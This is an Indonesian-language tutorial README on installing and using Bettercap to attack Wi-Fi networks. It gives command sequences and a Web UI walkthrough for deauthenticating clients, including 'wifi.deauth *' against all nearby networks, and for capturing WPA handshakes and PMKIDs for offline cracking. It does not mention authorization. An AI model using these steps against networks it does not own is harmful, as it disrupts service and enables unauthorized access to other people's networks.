 # Bettercap

![bettercap logo](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/bettercap%20logo.jpg)

[Bettercap](https://www.bettercap.org/) adalah sebuah framework yang kuat, mudah diperluas, dan portabel yang ditulis dalam [Go](https://id.wikipedia.org/wiki/Go_(bahasa_pemrograman)) yang bertujuan untuk menawarkan kepada peneliti keamanan, red teamer, dan reverse engineer sebuah solusi all-in-one yang mudah digunakan dengan semua fitur yang mungkin mereka perlukan untuk melakukan rekognisi dan menyerang jaringan [Wi-Fi](https://en.wikipedia.org/wiki/Wi-Fi), perangkat [Bluetooth Low Energy](https://en.wikipedia.org/wiki/Bluetooth_Low_Energy), perangkat [HID nirkabel](https://en.wikipedia.org/wiki/USB_human_interface_device_class), [CAN-bus](https://en.wikipedia.org/wiki/CAN_bus), dan jaringan [IPv4](https://en.wikipedia.org/wiki/IPv4)/[IPv6](https://en.wikipedia.org/wiki/IPv6).

## Instalasi

Kali Linux:

1. Pake packet manager (`apt`):

   ```
   sudo apt-get update
   sudo apt-get install bettercap bettercap-dbgsym bettercap-caplets bettercap-ui
   bettercap -version
   ```

2. Pake Go:

   Pake Go versi: `go1.24.7`
   
   ```
   sudo apt-get update
   sudo apt install golang git build-essential libpcap-dev libusb-1.0-0-dev libnetfilter-queue-dev
   go install github.com/bettercap/bettercap/v2@latest
   sudo mv ~/go/bin/bettercap /usr/local/bin/
   bettercap -version
   ```

Untuk info lebih lengkapnya lagi bisa liat di sini: [https://www.bettercap.org/project/installation/](https://www.bettercap.org/project/installation/)

## Penggunaan

Sebelum pake Bettercap, kita harus mengaktifkan mode monitor dulu pake:

```
sudo airmon-ng check kill
sudo airmon-ng start [interface]
```

### 1. Mode Interaktif

Mode interaktif adalah mode pada Bettercap di mana kita pake sesi interaktif dan masukin perintahnya secara manual (interaktif).

Jalanin:

```
sudo bettercap
```

> Kalo muncul output error kaya gini `No active interfaces found.`. Pake opsi `-iface [interface]`.

#### Capture Handshake

Single target:

```
set wifi.handshakes.file [output_file]
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
set wifi.assoc.skip *
wifi.deauth [bssid]
```

Semua target:

```
set wifi.handshakes.file [output_dir]
set wifi.handshakes.aggregate false
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
set wifi.assoc.skip *
wifi.deauth *
```

#### Capture PMKID

Single target:

```
set wifi.handshakes.file [output_file]
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
wifi.assoc *
```

Semua target:

```
set wifi.handshakes.file [output_dir]
set wifi.handshakes.aggregate false
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
wifi.assoc *
```

### 2. Opsi Caplet

Caplet adalah sekumpulan perintah Bettercap yang disimpen di file yang berekstensi `.cap`. Fungsinya itu buat mengotomatisasi eksekusi perintah-perintah yang ada di Bettercap, biar kita kaga usah lagi mengetikkan perintah satu-satu secara manual.

Jalanin:

```
sudo bettercap -caplet [file_caplet]
```

> Kalo muncul output error kaya gini `No active interfaces found.`. Pake opsi `-iface [interface]`.

Contoh file capletnya ada di sini: [https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/caplet.cap](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/caplet.cap)

### 3. Mode WEB UI

Mode Web UI adalah mode di Bettercap yang menyediakan tampilan web, tujuannya itu biar kita bisa pake Bettercap lewat browser.

Jalanin:

```
sudo bettercap -eval "ui on"
```

1. Arahkan kursor ke link yang ada di bagian `web ui starting on`, yaitu `http://127.0.0.1:80`, terus klik kanan dan pilih `Open Link`.

   ![img 1](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%201.png)
2. Masukkan kredensial login:
   - Usermame: `user`
   - Password: `pass`

   ![img 2](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%202.png)
3. Klik ikon Wi-Fi:

   ![img 3](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%203.png)
4. Pilih interface yang ingin dipake dengan klik menu dropdown:


   ![img 4](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%204.png)
5. Mulai scanning Wi-Fi dengan klik ikon play:

   ![img 5](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%205.png)
6. Di gambar ini ada beberapa bagian, yaitu:

   ![img 6](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%206.png)

   - `RSSI`: Kekuatan sinyal dari Access Point (AP) dalam satuan [dBm](https://en.wikipedia.org/wiki/DBm).
   - `ESSID`: Nama Wi-Fi.
   - `BSSID`: Alamat MAC unik dari AP.
   - `Vendor`: Produsen AP berdasarkan BSSID.
   - `Encryption`: Jenis enkripsi yang dipake oleh Wi-Fi.
   - `Ch`: Channel yang dipake oleh AP.
   - `Clients`: Jumlah klien yang terhubung ke AP.
   - `Sent`: Jumlah paket data yang dikirim dari klien ke AP.
   - `Recvd`: Jumlah paket data yang diterima dari AP oleh klien.
   - `Seent`: Jumlah paket yang terdeteksi dari klien atau AP selama proses pemantauan.
8. Di sini, kita harus pilih BSSID target yang ingin diserang, terus klik menu dropdownnya:

   ![img 7](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%207.png)
9. Di sini, kita bisa lakuin dua jenis serangan, yaitu:
   - Capture Handshake
   - Capture PMKID
  
   ![img 8](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%208.png)

   Kalo mau Capture Handshake, klik yang `Deauthenticate Client`. Kalo mau Capture PMKID, klik yang `Associate`. Dalam kasus ini, gw bakal pilih `Capture Handshake`.
   
   > Catatan:
   >
   > - Capture Handshake: Harus ada 1 klien yang aktif.
   > - Capture PMKID: Kaga semua router mendukung PMKID.
10. Abis klik `Deauthenticate Client`, tungguin ampe handshakenya berhasil dicapture. Handshake dianggap berhasil dicapture kalo muncul ikon `kunci merah` dibagian `Encryption` dan nongol notifikasi `Captured handshake for station...`:

    ![img 9](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%209.png)
    
11. Klik ikon Events:

    ![img 10](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2010.png)
12. Klik salah satu dari 3 `Type` yang warna merah di bagian pesannya yang `Captured handshake for...`:

    ![img 11](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2011.png)
13. Dari gambar ini, keliatan kalo file handshakenya disimpan di direktori: `/root` dan nama filenya adalah: `bettercap-wifi-handshakes.pcap`.

    ![img 12](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2012.png)
